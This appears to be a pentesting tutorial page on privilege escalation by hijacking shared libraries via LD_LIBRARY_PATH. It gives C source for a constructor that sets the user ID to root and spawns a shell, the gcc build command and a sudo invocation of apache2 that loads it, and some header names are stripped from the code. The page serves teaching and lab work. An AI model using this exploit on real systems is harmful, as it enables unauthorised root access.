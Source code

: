 # LD\_LIBRARY\_PATH

The LD\_LIBRARY\_PATH environment variable contains a set of directories where shared libraries are searched for first.

The ldd command can be used to print the shared libraries used by a program:

#### `ldd /usr/sbin/apache2`

By creating a shared library with the same name as one used by a program, and setting LD\_LIBRARY\_PATH to its parent directory, the program will load our shared library instead.

Run ldd against the apache2 program file:

#### `ldd /usr/sbin/apache2`

![](../../../../.gitbook/assets/1%20%2817%29.png)

Hijacking shared objects using this method is hit or miss. Choose one from the list and try it \(libcrypt.so.1 seems to work well\).

Create a file \(library\_path.c\) with the following contents:

#### `#include  #include  static void hijack() __attribute__((constructor));  void hijack() {  unsetenv("LD_LIBRARY_PATH");  setresuid(0,0,0);  system("/bin/bash -p");  }` 

Compile library\_path.c into libcrypt.so.1:

#### `gcc -o libcrypt.so.1 -shared -fPIC library_path.c`

Run apache2 using sudo, while setting the LD\_LIBRARY\_PATH environment variable to the current path \(where we compiled library\_path.c\):

#### `sudo LD_LIBRARY_PATH=. apache2`

![](../../../../.gitbook/assets/env4.png)











